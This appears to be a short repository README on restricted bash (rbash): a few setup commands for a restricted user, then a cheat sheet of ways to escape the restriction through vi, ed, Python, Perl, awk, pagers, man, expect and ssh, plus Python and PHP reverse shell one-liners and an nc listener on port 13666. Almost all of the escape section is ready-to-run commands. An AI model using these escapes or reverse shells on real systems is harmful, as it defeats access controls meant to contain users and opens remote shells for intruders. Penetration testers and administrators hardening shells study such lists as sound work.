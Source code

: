 # rbash

restired bash

## setup

### enabling for a user

    cd /bin
    ln -s bash rbash

    useradd -m ruser
    usermod --shell /bin/rbash ruser

    grep -rni ruser /etc/passwd

### start directly

    bash -r

    cd /etc/
    -rbash: cd: restricted

## bypass rbash

### editors

#### vi

    :set shell=/bin/bash
    :shell
    cd /etc

#### ed

    ed
    !'/bin/sh'
    cd /etc
    exit
    q

### one liner

#### python

    python -c "import os; os.system('/bin/sh')"
    
#### perl

    perl -e "system('/bin/sh')"

#### awk

    awk 'begin {system("/bin/sh")}'
    cd /etc; pwd

### reverse shell

    # listen
    nc -lvp 13666

#### python

    python -c "import pty; pty.spawn('/bin/bash')"
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1", 13666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

#### php

    php -r '$sock=fsockopen("127.0.0.1", 13666);exec("/bin/sh -i <&3 >&3 2>&3");'

### system binaries

#### more

    more long-file.txt
    !sh

#### less

    less file.txt
    !sh

#### man

    man man
    !sh

### expect

    expect
    spawn sh
    cd /etc

### ssh

    ssh ruser@127.0.0.1  -t "bash --noprofile"
    cd /etc

## interactive shell

### su: must be run from a terminal

    echo "import pty; pty.spawn('/bin/bash')" > /tmp/asdf.py
    python /tmp/asdf.py
